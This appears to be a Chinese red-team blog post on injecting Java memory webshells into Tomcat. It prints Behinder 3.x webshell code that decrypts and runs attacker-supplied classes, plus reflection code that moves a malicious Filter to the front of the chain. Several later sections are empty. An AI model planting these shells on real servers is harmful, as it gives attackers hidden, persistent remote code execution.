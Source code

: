 ## 论如何优雅注入 Java 内存马

### 前言 



回顾之前做红队的时候，经常遇到很多内存马明明已经注入了，但无法连接上。同时有些时候也会遇到内存马无法注入，当然这里不考虑 RASP 之类的防御机制。虽然我已经不是红队，但这些问题时常想起总是困恼着我，在这里我想尝试找一下这些问题的答案。

在此之前无法连接的情况，通常会考虑注入一个静态路径或者是一个完全虚拟的路径，一般情况下是能成功绕过。但也有一些极端的情况，还是无法注入内存马，具体情况目前我也无法得知，只能进行猜测。



---

### 传统 Java 内存马

下面是一段冰蝎3.x版本的服务端链接代码，如果要注入 **Serlvet** 内存马也就约等同于在内存中注入这段代码。

```java
    @RequestMapping("/behinder/shell2") // behinder3.0
    public void Shell2(ServletRequest request, ServletResponse response)
            throws InvalidKeyException, IOException, NoSuchPaddingException, NoSuchAlgorithmException,
            IllegalBlockSizeException, BadPaddingException, InstantiationException, IllegalAccessException {
        String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        Map objMap = new HashMap();
        HttpSession session = ((HttpServletRequest) request).getSession();
        session.putValue("u",k);
        objMap.put("session", session);
        objMap.put("response", response);
        objMap.put("request", request);
        Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));
        new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(objMap);
    }

```

如果要注册 Filter 也就是在 doFilter 方法中增加内存马的逻辑，无论是 Serlvet 还是 Filter、Listener 内存马，本质上都是动态注册。

理论上传统内存马的优先级是 **Listener > Filter > Serlvet**，但正常情况下一个干净的 Java Web 的容器应该是不存在任何 Listener （这里可能不是很严谨，但至少Tomcat是没有，特殊情况除外）。并且由于 Listener 本身的特点，会很大干扰业务的正常运行，正常情况下还是不要考虑注入 Listener 内存马。

那么我们注入内存马的优先级应该变为了 **Filter > Serlvet**，注入 Serlvet 内存马得考虑原来服务中可能存在 Filter 的，得找一个默认不会进行拦截的路径进行注入。

简单举一个例子，我首先在我的服务代码中注册了一个 Filter ，只要请求路径中不含有 favicon 才会放行请求。

![image-20221102170753797](https://img.sumsec.me/202211/202211021707966.png)

![image-20221102170839653](https://img.sumsec.me/202211/202211021708701.png)

如果此时我们注入一个 Serlvet 内存马，路径为 **/favicondemo.ico** 内存马，我们是无法连接的。

![image-20221102171117109](https://img.sumsec.me/202211/202211021711154.png)

![image-20221102171135904](https://img.sumsec.me/202211/202211021711939.png)

![image-20221102172528685](https://img.sumsec.me/202211/202211021725775.png)

分析至此，那么最好的选择是注入 Filter 类型内存马。因为即使正常业务中存在 Listener 其目的也不会影响后续的 Filter 执行（理论上应如此）。

---

### 无法连接？

目前为了注入 Filter 之后能连接上，会将注入的内存马得执行顺序放在第一位，注入成功之后就理论不会存在连接不上的情况，当然排除有 RASP 之类的存在。

```java
                Class filterMap;
                try {
                    filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                } catch (Exception var21) {
                    filterMap = Class.forName("org.apache.catalina.deploy.FilterMap");
                }

                Method findFilterMaps = standardContext.getClass().getMethod("findFilterMaps");
                Object[] filterMaps = (Object[])((Object[])findFilterMaps.invoke(standardContext));

                for(int i = 0; i < filterMaps.length; ++i) {
                    Object filterMapObj = filterMaps[i];
                    findFilterMaps = filterMap.getMethod("getFilterName");
                    String name = (String)findFilterMaps.invoke(filterMapObj);
                    if (name.equalsIgnoreCase(filterName)) {
                        filterMaps[i] = filterMaps[0];
                        filterMaps[0] = filterMapObj;
                    }
                }
```

为什么无法连接呢？我在测试的时候发现会存在动态注册的 Filter 内存马顺序会被移动。详情如下，首先我利用工具注册了一个 Pattern 为 **/favicondemo.ico** 的内存马。之后我再次注册一个 Pattern 为 **/favicondemo1.ico** 的内存马，通过扫描 Filter 发现  Pattern 为 **/favicondemo.ico** 的内存马原来的 ID 为 1，现在变为了 7。

![image-20221103113221051](https://img.sumsec.me/202211/202211031132339.png)



![image-20221103113709759](https://img.sumsec.me/202211/202211031137866.png)

很明显的可以看到，第一次注册的 Pattern 为 **/favicondemo.ico** 的执行顺序都在服务代码注册**com.example.shirovul.filter.WebFilter** 的下面了，通过这个现象不难**推测**哪些无法连接的内存马是不是在无形之中执行顺序被改变了呢？





---

### 新型 WS 内存马



---

### Agent 内存马





---

### 总结





---

### 参考

https://xz.aliyun.com/t/11640

https://y4er.com/posts/javaagent-tomcat-memshell/
